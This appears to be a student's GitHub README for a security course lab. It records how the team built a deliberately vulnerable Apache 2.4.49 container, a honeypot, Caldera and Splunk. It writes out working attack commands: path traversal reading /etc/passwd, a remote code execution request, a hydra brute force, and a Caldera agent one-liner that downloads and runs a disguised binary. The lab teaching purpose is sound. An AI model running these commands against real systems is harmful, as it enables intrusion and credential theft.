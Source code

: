 # ICS344-Project-Commands-and-codes

How we did the setup for everything in the project

 # 1-Docker:
the reason we wanted to install docker is because we needed to downgrade our apache service to something with known vulnerabilities we used the following commands to install it on the vm.

-sudo apt-get install -y docker.io

-sudo systemctl start docker & sudo systemctl enable docker

-docker –version (to make sure it is correctly installed)
 # 2-Apache 2.4.49:
 after installing docker we need to make a dockerfile with all the files and dependencies will go through the steps we did to set it up correctly
-nano DockerFile
-write in the dockerfile the following (FROM debian:latest
RUN apt-get update && \
    apt-get install -y wget build-essential libpcre3 libpcre3-dev libssl-dev libexpat1-dev && \
    wget https://archive.apache.org/dist/httpd/httpd-2.4.49.tar.gz && \
    wget https://archive.apache.org/dist/apr/apr-1.7.0.tar.gz && \
    wget https://archive.apache.org/dist/apr/apr-util-1.6.1.tar.gz && \
    tar -xzf httpd-2.4.49.tar.gz && \
    tar -xzf apr-1.7.0.tar.gz && \
    tar -xzf apr-util-1.6.1.tar.gz && \
    mv apr-1.7.0 httpd-2.4.49/srclib/apr && \
    mv apr-util-1.6.1 httpd-2.4.49/srclib/apr-util && \
    cd httpd-2.4.49 && \
    ./configure --enable-so --enable-ssl --with-mpm=event && \
    make && \
    make install

EXPOSE 80
CMD ["/usr/local/apache2/bin/httpd", "-D", "FOREGROUND"])
- after saving the file we need to build the image the containers will be using with the following command 'sudo docker build -t apache-2.4.49'
- -then use 'sudo docker run -d -p 8080:80 apache-2.4.49' to make the container with apache running on port 8080

# 3- Honeypot:
for the honeypot we picked HoneyUp which works okay with our service, but to be able to use honeyup we need to install nginx among other things to be able to fully use it and have logs to read after.

- installing nginx using the following command sudo apt install nginx -y

- using this command  sudo systemctl start nginx to make sure everything is running okay

- we need the rust toolchain which we installed using curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh

- and we needed rustup and cargo which we installed using sudo apt install cargo && sudo apt install rustup

- now we can install honeyup using git clone https://github.com/LogoiLab/honeyup.git

- cargo build –release so we can compile it.

# 4-Attack Tools:
we needed to install some tools that we might use for attacks and we used the following command

-sudo apt install nmap metasploit-framework hydra gobuster nikto -y
# 5-Caldera:
Caldera is a necessary part to complete the project so we followed these commands to install it correctly and making sure it runs without errors.

-git clone https://github.com/mitre/caldera.git --recursive

-pip3 install -r requirements.txt

-python3 server.py --insecure –build (use --build if it is running for the first time, after the first time you can remove it and it will run okay).

- to be able to run operations in caldera we need an agent the following code we used to make an agent (server 'http: //192. 168.112.129:8888' ;
curl-s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download › splunkd;
chmod +x splunkd;
./splunkd -server $server -group red -v)

# 6-Attacks

-we did the nmap scan on the target using (nmap --script vuln -p 8080 192.168.206.129).

-one of the vulnerabilities in apache 2.4.49 is remote code execution we used this code to attack curl -X POST "http://192.168.206.129:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh" -d "echo RCE Test"

-one of the vulnerabilities in apache 2.4.49 is path traversal we used this code to attack curl http://192.168.206.129:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd

-one of the vulnerabilities in apache 2.4.49 is the fact that http trace is enabled we cannot really use it as an attack without having something else to use it with but we did use a command to see if it is enabled or not with curl -X TRACE http://192.168.206.129:8080 -I

-using kali tools we managed to brute force our apache server using hydra tool with the following code hydra -l admin -P /usr/share/wordlists/rockyou.txt -t 4 192.168.206.129 -s 8080 http-get / 


#7- SIEM dashboard (SPLUNK)

-after accessing their website and signing up we obtained this link (wget -O splunk-9.3.2-d8bb32809498-linux-2.6-amd64.deb "https://download.splunk.com/products/splunk/releases/9.3.2/linux/splunk-9.3.2-d8bb32809498-linux-2.6-amd64.deb") you can run this in the terminal in kali linux

-after finishing that run the command sudo dpkg -i splunk-8.x.x-xxxxxx-linux-2.6-amd64.deb to extract and install it


#THAT'S IT
